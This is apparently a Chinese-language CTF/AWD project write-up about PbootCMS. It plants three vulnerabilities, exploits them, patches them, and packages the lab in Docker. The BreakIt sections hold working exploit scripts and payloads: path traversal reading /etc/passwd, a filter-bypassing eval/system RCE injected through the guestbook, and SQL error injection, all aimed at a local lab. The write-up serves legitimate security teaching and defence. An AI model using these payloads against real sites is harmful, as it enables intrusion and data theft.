
该 check 程序主要分为以下几个步骤

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```

3. 随机内容生成函数（和漏洞二一样的思路）

   ```python
   def makeKey():
       random.seed(time)
       alp = 'abcdefghijklmnopqrstuvwxyz'
       key = random.sample(alp,10)
       key="keyyyy-"+"".join(key)+"-keyyyy"
       return key
   ```

4. 模拟发送新增文章请求，内容为随机内容，方便对新增功能校验

   ```python
   def senExp(makeKey):
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": makeKey,
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-23+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": makeKey
       }
   ```

5. 对新增完的文章进行校验，看是否正确新增

   ```python
   def getKey():
       r = requests.get("http://127.0.0.1/?company/")
       if r.status_code==200:
           flagg = re.findall(r'''keyyyy-(.+?)-keyyyy''', r.text)
           return "keyyyy-"+flagg[0]+"-keyyyy"
       else:
           return "err"
   ```

主函数

   ```python
   if __name__ == '__main__':
       mkey=makeKey()
       if senExp(mkey)==200:
           if mkey==getKey():
               print("Check Up")
           else:
               print("Check Down")
       else:
           print("Check Down")
   ```



### （三）BreakIt — 队员互相破解漏洞（做题人视角的 WP & EXP)

#### 1.BreakIt-漏洞一

 **任意文件读取漏洞**

> **/etc/passwd** ：Linux 系统保存用户信息及其工作目录的文件，权限是可读。

参考 [过往版本漏洞](https://xz.aliyun.com/t/7744#toc-0) ，此类漏洞大多存在 `../` 和 `\`  的过滤现象，可利用 **双写绕过** 解决。

以「PbootCMS」为模版的网站为实现搜索功能常使用「search」等标签，在 [PbootCMS英文站搜索结果页面包屑和标题翻译](https://www.srso.cn/seo/770.htm) 等在线文档中曾多次出现了「searchtpl」等属性名。

综合以上，反复多次试验找出了根目录

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`



猜想有「flag.php」或「flag」放在根目录或其子目录下，试验发现「flag」直接放在根目录下，成功拿到 flag

`?search=&searchtpl=....//....//....//....//....//....//....//....//flag`



利用「request 库」即可得到  flag

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=....//....//....//....//....//....//....//....//flag"))
```



#### 2.BreakIt-漏洞二

**破解思路**：由于漏洞在留言板处，同时是前台RCE的题目，根据题目线索： `pbootpbootpboot:if:if:if` ，推测存在针对 `pboot:if` 的代码绕过。于是可以在留言板内容处进行一句话木马注入，三次重复说明存在两次双写绕过。

1. 在留言处测试输入 `{pbootpbootpboot:if:if:if(TRUE)}test{/pbootpbootpboot:if:if:if}`

   

   - 在两个 `pboot:if` 标签被过滤之后，系统执行 `{pboot:if(TRUE)}test{/pboot:if}` ，输出条件为 `true`，`test` 作为文本被输出到留言板中
   - 参考 [PbootCMS 开发手册](https://www.pbootcms.com/docs/235.html) 使用 `pboot:if` 标签，作用为根据条件输出不同内容

2. 尝试构造 `payload` 为 `{pbootpbootpboot:if:if:if(system(whoami))}test{/pbootpbootpboot:if:if:if}` 打印用户登录信息

   执行失败，说明系统存在其他过滤手段

   

3. 研究资料发现：除了 if 标签过滤以外， `payload` 还被进行一层安全校验：提取出 `pboot:if` 标签条件判断的括号 () 中左括号前的字符串，判断字符串是不是函数或者字符串内容是不是 `eval`，若上述都不满足，再判断字符串不在白名单中，若在白名单中才可执行。

   - `eval`  把字符串作为PHP代码执行

4. 由于 PHP 项目中通过会有移除控制字符的函数。在构造 `payload` 过程中将函数名和括号间插入控制字符进行绕过。使用 `chr()` 拼接字符串，其作用是从指定的 ASCII 指返回字符串，进行拼接绕过。

   ```ascii码对照表
   #system("cat flag.php")的ascii码
   \u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0070\u0068\u0070\u0022\u0029
   ```

5. 编写拿 flag 的代码：这里经过多次试验，猜测出隐藏 flag 的文件为 `flag.php`

   函数 `post` 发送 `payload`

   ```php
   def myPost(url):
       headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
       post = {
           'contacts': 'stephanieSuu',
           'mobile': '123456',
           'content': '{ppbopboot:ifot:ifboot:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}我今天吃饭了{/pbpbopboot:ifot:ifoot:if} '
           
           #执行system("cat flag.php")一句话木马，
       }
       response = requests.post(url, data=post,headers= headers)
       if response.status_code == 200:
           print("Exp successed")
           return True
       else:
           print("Exp failed, response code=" + str(response.status_code))
           return False           
   ```

   前台留言板并未显示任何内容，猜测后台留言已经新增成功，去前台留言板获取新增的留言，又因为留言内容执行的是  `system("cat flag.php");` ， 所以应该可以拿到 `flag`

   ```python
   def catchFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flag = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flag)>=0):
           #多次插入exp会造成获取到多个flag，取一个即可
           print(flag[0])
       else:
           print("can not catch the Flag")
   ```

   主函数

   ```python
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if myPost(url):
           catchFlag()
   ```

   成功拿到 `flag{flaggg}`

#### 3.BreakIt-漏洞三

**整体破解思路分析**：

- 由于是后台 RCE ，需要先拿到账号密码登录

- 漏洞在新增内容处，参考 [PbootCMS SQL Injection](https://github.com/wowwooo/vnotes/blob/master/PbootCMS%20SQL%20Injection%20Description.md) 进行注入测试，首先尝试一下爆数据库名，发现成功。

  ```mysql
  1' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(database(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND 'a'='a
  ```

  

- 所以利用报错注入可以一步步得到 Flag。

一、破解账号和密码

根据提示——题目线索：检查一下 `MTJAYWE0Li8oOUViOUFEKTApNw==` 看看能发现什么吧~

- 看到熟悉的 `=` ，肯定和 `base64` 加密有关，推测用户名为 `check` , `MTJAYWE0Li8oOUViOUFEKTApNw==` 是由原始密码经过 `base64` 加密变换后得到的密文。
- 经过尝试，发现使用 `base64` 解密，得到 `12@aa4./(9Eb9AD)0)7` ，看起来很像密码，在网站试一下果然是正确的。

在脚本中 `base64` 解密函数

```python
def b64decode(str):   
    decode = base64.b64decode(str)
    return decode
```

二、拿 Flag

检查登录页：





1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def GetFormCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def GetCookies():
       formcheck = GetFormCheck()
       password = b64decode("MTJAYWE0Li8oOUViOUFEKTApNw==")
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + formcheck[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': password,
           'formcheck': formcheck[0]
       }
       
       r = requests.post(url, data, headers=headers)
       cookies = r.cookies['PbootSystem']
       return 'PbootSystem='+cookies
   ```

3. 发送 POC 到指定位置，并返回数据库报错内容

   ```python
   def SentExp():
       cookie = GetCookies()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': cookie
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": "checkit",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-16+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def GetFlag():
       flag_text = re.findall(r'flag{(.+?)}', SentExp())
       return "flag{"+flag_text[0]+"}"
   ```

主函数

```python
import re
import requests
from bs4 import BeautifulSoup

if __name__ == '__main__':
    print(GetFlag())
```




### （四）FixIt ——对应 awdFix 文件夹，是 Fix 之后的 docker

**Fix 之后，三个漏洞的漏洞利用都失效， check 仍能成功。详见 [视频](https://www.bilibili.com/video/BV1ya411M7c1/) 。具体 Fix 方法如下**

#### 1.FixIt-漏洞一

- Before Fix — `awdBreak` 文件夹下

  `apps\home\controller\SearchController.php` line 26-32

  ```php
  $searchtpl = request('searchtpl');
  if (! preg_match('/^[\w\-\.\/]+$/', $searchtpl)) {
         $searchtpl = 'search.html';
  }
  ```

- After Fix — `awdFix` 文件夹下

  `apps\home\controller\SearchController.php` line 26-32

  ```php
  $searchtpl = request('searchtpl');
  if (! preg_match('/^[\w]+\.html$/', $searchtpl)) {
      $searchtpl = 'search.html';
  }
  ```

  **这里 Fix 采取白名单策略，匹配正则失败 `$searchtpl` 默认等于 `search.html` 从而防止任意读取其他文件**



#### 2.FixIt-漏洞二

- Before Fix

`apps\home\controller\FormController.php` line 68-80

```php
foreach ($form as $value) {
    $field_data = post($value->name);
    if (is_array($field_data)) { // 如果是多选等情况时转换
        $field_data = implode(',', $field_data);
    }
    $field_data = str_replace('pboot:if', '', $field_data);
    if ($value->required && ! $field_data) {
        alert_back($value->description . '不能为空！');
    } else {
        $data[$value->name] = $field_data;
        $mail_body .= $value->description . '：' . $field_data . '<br>';
    }
}
```

`core\basic\Model.php` line 1252-1254

```php
if (M != 'admin') {
    $sql = preg_replace('pboot:if', '', $sql); // 过滤插入cms条件语句
}
```

- After Fix

`apps\home\controller\FormController.php`  line 68-80

```php
foreach ($form as $value) {
    $field_data = post($value->name);
    if (is_array($field_data)) { // 如果是多选等情况时转换
        $field_data = implode(',', $field_data);
    }
    $field_data = preg_replace_r('/pboot:if/i', '', $field_data);
    if ($value->required && ! $field_data) {
        alert_back($value->description . '不能为空！');
    } else {
        $data[$value->name] = $field_data;
        $mail_body .= $value->description . '：' . $field_data . '<br>';
    }
}
```

`core/basic/Model.php` line 1252-1254

```php
if (M != 'admin') {
    $sql = preg_replace_r('/pboot:if/i', '', $sql); // 过滤插入cms条件语句
}
```

「函数 preg_replace_r()」

```php
function preg_replace_r($search, $replace, $subject)
{
    while (preg_match($search, $subject)) {
        $subject = preg_replace($search, $replace, $subject);
    }
    return $subject;
}
```

> php 语言中「preg_replace() 函数」语法：
>
> ```php
> mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
> ```
>
> 函数功能：搜索 subject 中匹配「pattern」的部分， 以「replacement」进行替换。

将「函数preg_replace()」替换为「函数 preg_replace_r()」使得 **可以循环匹配和过滤**

在 `apps/home/controller/ParserController.php`  新增 **过滤判断函数** ，过滤掉危险函数

```php
// 过滤特殊字符串
if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(print_r)|(urldecode)/i', $matches[1][$i])) {
    $danger = true;
}
```

利用 Exp 验证漏洞是否被修复，在修复后的环境运行 Exp ，插入失败，说明修复成功！



#### 3.FixIt-漏洞三

- Before Fix

     `apps/admin/controller/content/ContentController.php` line 114-117

     ```php
     // 自动提取前一百个字符为描述
     if (! $description && isset($_POST['content'])) {
         $description = mb_substr(strip_tags($_POST['content']), 0, 150);
     }
     ```

- After Fix

     **通过过滤和转义的方式进行过滤危险参数**

     `apps/admin/controller/content/ContentController.php` line 114-117

     ```php
     // 自动提取前一百个字符为描述
     if (! $description && isset($_POST['content'])) {
         $description = escape_string(clear_html_blank(substr_both(strip_tags($_POST['content']), 0, 150)));
     }
     ```

  - `escape_string()`

       ```php
       // 获取转义数据，支持字符串、数组、对象
       function escape_string($string)
       {
           if (! $string)
               return $string;
           if (is_array($string)) { // 数组处理
               foreach ($string as $key => $value) {
                   $string[$key] = escape_string($value);
               }
           } elseif (is_object($string)) { // 对象处理
               foreach ($string as $key => $value) {
                   $string->$key = escape_string($value);
               }
           } else { // 字符串处理
               $string = htmlspecialchars(trim($string), ENT_QUOTES, 'UTF-8');
               $string = addslashes($string);
           }
           return $string;
       }
       ```

  - `clear_html_blank()`

       ```php
       // 清洗html代码的空白符号
       function clear_html_blank($string)
       {
           $string = str_replace("\r\n", '', $string); // 清除换行符
           $string = str_replace("\n", '', $string); // 清除换行符
           $string = str_replace("\t", '', $string); // 清除制表符
           $string = str_replace('　', '', $string); // 清除大空格
           $string = str_replace('&nbsp;', '', $string); // 清除 &nbsp;
           $string = preg_replace('/\s+/', ' ', $string); // 清除空格
           return $string;
       }
       ```

  - `substr_both()`

       ```php
       // 中英混合的字符串截取,以一个汉字为一个单位长度，英文为半个
       function substr_both($string, $strat, $length)
       {
           $s = 0; // 起始位置
           $i = 0; // 实际Byte计数
           $n = 0; // 字符串长度计数
           $str_length = strlen($string); // 字符串的字节长度
           while (($n < $length) and ($i < $str_length)) {
               $ascnum = Ord(substr($string, $i, 1)); // 得到字符串中第$i位字符的ascii码
               if ($ascnum >= 224) { // 根据UTF-8编码规范，将3个连续的字符计为单个字符
                   $i += 3;
                   $n ++;
               } elseif ($ascnum >= 192) { // 根据UTF-8编码规范，将2个连续的字符计为单个字符
                   $i += 2;
                   $n ++;
               } else {
                   $i += 1;
                   $n += 0.5;
               }
               if ($s == 0 && $strat > 0 && $n >= $strat) {
                   $s = $i; // 记录起始位置
               }
           }
           if ($n < $strat) { // 起始位置大于字符串长度
               return;
           }
           return substr($string, $s, $i);
       }
       ```
       
       

### （五）使用 Docker 将环境打包

Compose 使用的三个步骤：

- 使用 `Dockerfile` 定义应用程序的环境。
- 使用 `docker-compose.yml` 定义构成应用程序的服务，这样它们可以在隔离环境中一起运行。
- 执行 `docker-compose up` 命令来启动并运行整个应用程序。

#### 1.使用 Dockerfile 定制镜像

> 为了简化环境配置，可以将每一层修改、安装、构建、操作的命令都写入 Dockerfile 模板脚本，并让 docker 根据这个模板脚本来定制镜像，从而生成新的容器。

#### 2.编写 Dockerfile

项目基础镜像基于 `s1riu5/lamp:7.2`  所有后续环境均基于该环境。

1. 在该镜像的基础上利用 `COPY schema.sql /docker-entrypoint-initdb.d/` 将数据库文件导入数据库。

2. 将整个项目源码拷贝进该基础环境的网站目录 `COPY src/ /var/www/html`

3. 生成 flag 并写入根目录 flag 文件 `RUN echo "flag{fffllllaaggggg}" > /flag`——为漏洞一添加 flag

4. 给网站根目录文件赋予相应权限。并删除原环境的网站根目录中的 `index.html` 文件

   - 同时由于 Dockerfile 中每一个指令都会建立一层新的镜像，这里为了防止镜像膨胀，使用`&&`简化命令

   ```dockerfile
   RUN chmod -R 777 /var/www/html \
       && rm -rf /var/www/html/index.html 
   ```

```dockerfile
#dockerfile

#指定基础镜像
FROM s1riu5/lamp:7.2

#复制本机项目数据库文件和源码文件到镜像的工作目录
COPY schema.sql /docker-entrypoint-initdb.d/
COPY src/ /var/www/html

#添加flag文件到镜像目录
RUN echo "flag{fffllllaaggggg}" > /flag

#授权并删除冗余文件
RUN chmod -R 777 /var/www/html \
    && rm -rf /var/www/html/index.html 
```

#### 3.测试 Dockerfile

在 `Dockerfile` 文件的存放目录下，执行构建动作。

- `awdbeak:v1` （镜像名称:镜像标签）
- `.` 指定上下文的目录，即指定构建镜像上下文的路径，`docker build` 命令得知这个路径后，会将路径下的所有内容打包，然后上传给 Docker 引擎，再由引擎展开这个上下文包从而获得构建镜像所需的一切文件。

```sh
#通过Dockerfile构建镜像
docker build -t awdbreak:v1 .

#查看当前镜像
docker images
```

镜像构建成功


 

#### 4.构建 Docker Compose

> 使用 docker-compose.yml 定义构成应用程序的服务。确保多种服务可以在隔离环境中一起运行。

Windows 的 Docker 桌面版已经包括 Compose 和其他 Docker 应用程序，因此无需单独安装 Compose。若使用 linux ，apt 安装即可`apt-get install  docker-compose`

```yaml
#Docker-Compose.yml配置
version: '3'         #标记版本号
services:            #依赖的服务
  pbtcms-awd:        #依赖的服务1
    build: ./php-fpm #服务1基础镜像的Dockerfile的相对路径
    restart: always  # 确保Docker重启后，该服务可以自启动
    ports:           # 标记服务启动端口的映射关系
        - 80:80

```

- 使用该 Compose 文件定义了一个服务 **pbtcms-awd**
  - pbtcms-awd 服务指定使用从 `./php-fpm/Dockerfile` 文件构建的镜像。
  - 确保容器总是 **在 docker 重新启动后自启动**
  - 将容器和主机绑定到暴露的端口 **80**。服务使用 Flask Web 服务器的默认端口 **80** 。
  
```sh
#在测试目录中启动应用程序
docker-compose up
```



- 测试成功，访问 [127.0.0.1](127.0.0.1)  使用当前镜像系统功能

  

#### 5. Docker 启动

启动带漏洞的 docker 容器，注意要进入到 `docker-compose.yml` 所在的目录

```sh
##进入到 awdBreak （带漏洞的文件中）启动docker服务
sudo docker start

sudo docker-compose build 
sudo docker-compose up -d 
```



启动成功后直接在地址栏输入 `127.0.0.1` 访问即可。

## 三、遇到的问题与解决办法

### （一）解决 Visual Studio Code 下载慢的问题

以我的下载链接 `https://az764295.vo.msecnd.net/stable/c3f126316369cd610563c75b1b1725e0679adfb3/code_1.58.2-1626302803_amd64.deb` 为例，把 `/stable` 前面的 `az764295.vo.msecnd.net` 换成 `vscode.cdn.azure.cn`

### （二）连接服务器失败



**原因** ：有一些奇怪的 `bug` ，中间不能执行 `sudo docker-compose stop` ，否则就出问题。

**解决办法** ：完全删掉镜像，重新执行命令即可。[参考链接](https://blog.csdn.net/footbridge/article/details/123053052)

```Sh
##查看全部镜像
sudo docker images

##删除镜像
sudo docker rmi b3843aae40f8( IMAGE ID ) -f

##删除容器
sudo docker rm xxx
```



### （三）为漏洞二设计 flag 时出现绕过失败的情况

```shell
{pbootpbootpboot:if:if:if((chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b)))}!!!{/pbootpbootpboot:if:if:if}
```



```shell
{pbootpbootpboot:if:if:if((eval(chr(0x73).chr(0x79).chr(0x73).chr(0x74).chr(0x65).chr(0x6d).chr(0x28).chr(0x22).chr(0x63).chr(0x61).chr(0x74).chr(0x20).chr(0x66).chr(0x6c).chr(0x61).chr(0x67).chr(0x2e).chr(0x70).chr(0x68).chr(0x70).chr(0x22).chr(0x29).chr(0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```



解决思路：仔细观察「函数parserIfLabel」中正则表达式及白名单的过滤情况，此函数过滤了 「base64_decode」，使用「函数chr()」拼接时要注意在「chr」和括号间 **插入空格** ，而 函数 **eval()**  是 「PHP」中的常用函数，它表示「将字符串当成 PHP 代码来计算」，非常基本也至关重要。

由此可见 [PHP](https://www.runoob.com/php/php-tutorial.html) 和 [正则表达式](https://www.runoob.com/regexp/regexp-tutorial.html) 等语法知识需要在不断练习中才能熟练掌握。

```php
// 解码条件字符串
$matches[1][$i] = decode_string($matches[1][$i]);
                
// 带有函数的条件语句进行安全校验
if (preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)) {
 foreach ($matches2[1] as $value) {
  if ((function_exists($value) || preg_match('/^eval$/i', $value)) && ! in_array($value, $white_fun)) {
   $danger = true;
   break;
  }
  }
}
```

### （四）网页加载出错

在 PbootCMS 下载安装环境配置中，开始使用的是 `php 5.2.17`，不能正常打开网页，如下图所示：



根据提示切换 `php` 版本为 7.2.10 后即可成功打开



### （五）无法顺利使用 Docker

`Windows 11` 使用 `docker桌面版` 启动持续 `docker desktop starting` 状态，无法顺利使用

解决方法：

1. 确保已下载安装 `wsl_update_x64.msi`

   ```sh
   #设置wsl默认版本
      wsl --set-default-version 2
   ```

   

2. 由于 `windows11` 没有自带 `hyper-v` 服务，需手动安装 `hyper-v`

   复制以下命令到记事本中并保存为 `.bat` 文件，以管理员权限运行

   ```Sh
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-ClientEdition-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-ClientEdition-WOW64-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-WOW64-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-ClientEdition-WOW64-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Hypervisor-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Offline-Common-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.4.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Offline-Common-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Offline-Core-Group-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Offline-Core-Group-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Online-Services-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Online-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
      Microsoft-Hyper-V-Package-base-merged-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-merged-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-merged-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Package-base-Package~31bf3856ad364e35~amd64~~10.0.22621.1.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~en-US~10.0.22621.1.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~zh-CN~10.0.22621.1.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.105.mum
      Microsoft-Hyper-V-Services-Package~31bf3856ad364e35~amd64~~10.0.22621.232.mum
   ```

3. 在 `启用或关闭windows功能` 控制面板中开启 **所有** `Hyper-V` 服务

4. 以 **管理员身份** 执行以下命令后重启电脑，docker 可以正常运行了。

   ```sh
   # 执行下面命令启动wsl
   dism.exe /online /enable-feature /featurename:Microsoft-Windows-Subsystem-Linux /all /norestart
   
   #启动虚拟机给功能
   dism.exe /online /enable-feature /featurename:VirtualMachinePlatform /all /norestart
   
   #将WSL2设置为默认版本
   wsl --set-default-version 2
   ```



## 参考链接

1. [PbootCMS 开发手册](https://www.pbootcms.com/docs/218.html)
2. [PhpStorm的使用教程(本地运行PHP+远程开发+快捷键)](https://www.jb51.net/article/183600.htm)
3. [VScode(Visual Studio Code)在Liunx下的安装与配置](https://blog.csdn.net/qq_42519524/article/details/119250935)
4. [正则表达式](https://blog.csdn.net/weixin_40907382/article/details/79654372)
5. [PbootCMS SQL Injection Description](https://github.com/wowwooo/vnotes/blob/master/PbootCMS%20SQL%20Injection%20Description.md)
6. [PbootCMS V1.3.2 SQL injection](https://www.dazhuanlan.com/aaronzhcl/topics/1213609)
7. [从PbootCMS审计到某狗绕过](https://www.freebuf.com/articles/web/253403.html)
8. [PHPCMS漏洞分析合集](https://xz.aliyun.com/t/5730)
9. [CMS漏洞复现](http://www.bmth666.cn/bmth_blog/2021/07/04/CMS%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#PbootCMS)
10. [Overview of docker compose CLI](https://docs.docker.com/compose/reference/)
11. [PHP动态特性的捕捉与逃逸](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)
12. [PHP preg_replace() 函数](https://www.runoob.com/php/php-preg_replace.html)
13. [sql注入中报错注入函数extractvalue和updatexml函数的原理及使用](https://blog.csdn.net/weixin_46145442/article/details/110254238)
14. [VC9 32位_phpstudy集成安装环境运行库-php中文网工具下载](https://www.php.cn/xiazai/gongju/1479#elYxjsBoxId)
